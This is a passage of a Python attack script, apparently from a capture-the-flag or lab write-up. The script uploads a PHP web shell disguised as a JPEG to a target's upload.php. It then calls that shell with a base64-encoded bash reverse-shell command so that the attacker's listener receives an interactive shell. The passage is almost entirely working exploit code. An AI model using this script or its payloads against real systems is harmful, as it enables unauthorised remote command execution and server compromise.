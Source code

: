 ```py
    t.interact()
        
# Upload Malicious
def maliciousUpload(rhost):
    url = "http://%s/upload.php" %rhost
    data = b'\xff\xd8\xff\xee\r\n\r\n<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'image': ('0x4rt3mis.php.jpeg', data, "image/jpeg"),
        'submit' : (None,"Upload Image")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

# Trigger the reverse shell
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/images/uploads/0x4rt3mis.php.jpeg" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-ip', '--ipaddress', help='Local IP Adress', required=True)
    parser.add_argument('-lp', '--port', help='Local Port to Receive the Shell', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ipaddress
    lport = args.port
    
    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Upload malicious php file
    maliciousUpload(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```
